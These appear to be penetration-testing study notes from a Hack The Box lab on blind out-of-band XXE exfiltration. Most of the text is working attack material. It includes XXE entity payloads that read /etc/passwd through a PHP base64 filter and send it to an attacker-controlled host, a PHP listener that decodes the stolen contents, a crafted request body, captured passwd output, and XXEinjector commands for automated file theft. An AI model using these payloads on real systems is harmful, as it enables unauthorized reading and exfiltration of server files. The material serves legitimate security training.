 # Blind Data Exfiltration

## Out-of-band Data Exfiltration

This method is used when no data is returned at all (completly blind). This is similar to blind SQLi Blind XSS

Previously we already used out-of-band attack since we hosted DTD file in attack machine and made it connect to us (hence out-of-band).

This time will be similar except, instead of having web app output our file entity to a specific XML entity, we will make web app send request to server with content of the file we are reading.

1. Use parameter entitiy for content of file we are reading using PHP filter to base64 encode it.
2. Create another external parameter and reference it to our IP along with the value

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

When the XML tries to reference the external `oob` parameter from our machine, it will request along with the base64 encoded content. To decode it we will use PHP.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```bash
nano index.php
php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

**Request body**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg" alt=""><figcaption><p>request sent</p></figcaption></figure>

our console will show as follow

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

> we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

### Automated OOB Exfiltration

[XXEinjector](https://github.com/enjoiz/XXEinjector). -> supports basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

We can **copy the HTTP request from Burp** and write it to a file for the tool to use. We should **not include the full XML data**, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

run the tool with the&#x20;

* `--host`/`--httpport` -> IP and port
* `--file` -> file we wrote above
* `--path` -> file we want to read
* `--oob=http` and `--phpfilter` -> OOB attack

```bash
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

```shell-session
cat Logs/10.129.201.94/etc/passwd.log 
```

## Assessment

Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>
